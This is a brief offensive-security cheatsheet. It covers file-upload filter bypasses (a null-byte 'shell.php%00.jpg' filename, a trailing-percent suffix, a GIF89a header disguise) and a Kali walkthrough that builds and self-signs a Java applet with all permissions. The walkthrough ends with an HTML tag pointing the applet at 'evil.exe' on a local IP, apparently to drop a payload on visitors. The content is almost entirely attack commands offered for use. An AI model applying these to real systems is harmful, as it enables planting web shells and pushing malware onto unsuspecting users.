 # Cheatsheet

## File Upload

### Filename Suffixes
```
example.php%
```

```
filename="shell.php%00.jpg"
```

### Creating GIF
Put `GIF89a;`​ as the first line in the file and save the file with a ​ `.gif`​ extension

## Applet
```
root@kali:~# javac Java.java
root@kali:~# echo “Permissions: all-­‐permissions” > /root/manifest.txt
root@kali:~# jar cvf Java.jar Java.class
    added manifest
    adding: Java.class(in = 1233) (out= 709)(deflated 42%)

root@kali:~# keytool -­‐genkey -­‐alias signapplet -­‐keystore mykeystore -­‐keypass mykeypass -­‐storepass password123

root@kali:~# jarsigner -­‐keystore mykeystore -­‐storepass password123 -­‐keypass
    mykeypass -­‐signedjar SignedJava.jar Java.jar signapplet

root@kali:~# echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://192.168.10.5:80/evil.exe"></applet>' > /var/www/java.html
```
